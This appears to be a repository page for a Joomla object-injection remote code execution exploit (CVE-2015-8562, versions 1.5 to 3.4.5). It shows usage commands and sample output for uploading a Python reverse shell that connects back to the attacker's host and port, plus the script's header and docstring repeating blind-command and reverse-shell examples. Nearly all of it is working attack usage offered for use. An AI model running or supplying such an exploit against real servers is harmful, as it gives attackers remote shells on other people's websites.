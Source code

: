 Spawn Reverse Shell:

    python joomla-cve-2015-8562.py -t http://<target_ip>/ -l <local_ip> -p <local_port>
    [-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: http://<target_ip>/
    [-] Uploading python reverse shell
    <Response [200]>
    [+] Spawning reverse shell....
    <Response [200]>
    Listening on [0.0.0.0] (family 0, port 1337)
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    #!/usr/bin/python

    # Exploit Title: Joomla 1.5 - 3.4.5 Object Injection RCE
    # Date: 15/09/2017
    # Author: Gary@ Sec-1 ltd
    # Modified: Andrew McNicol BreakPoint Labs (@0xcc_labs)
    # Modified: Paolo Stagno (@Void_Sec) - https://voidsec.com
    # Vendor Homepage: https://www.joomla.org/
    # Software Link: http://joomlacode.org/gf/project/joomla/frs/
    # Version: Joomla 1.5 - 3.4.5
    # Tested on: Debian 3.2.89-2 x86_64 GNU/Linux (Joomla! 3.2.1 Stable)
    # CVE : CVE-2015-8562

    '''
        Blind RCE:
        python joomla-cve-2015-8562.py -t http://192.168.0.1/ --cmd
        $ touch /tmp/test
        Spawn Reverse Shell:
        python joomla-cve-2015-8562.py -t http://192.168.0.1/ -l 192.168.0.2 -p 1337
        [-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: http://192.168.0.1/
        [-] Uploading python reverse shell with LHOST:192.168.1.119 and LPORT:1337
        <Response [200]>
        [+] Spawning reverse shell....
        <Response [200]>
        Listening on [0.0.0.0] (family 0, port 1337)
        $ id
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
    '''
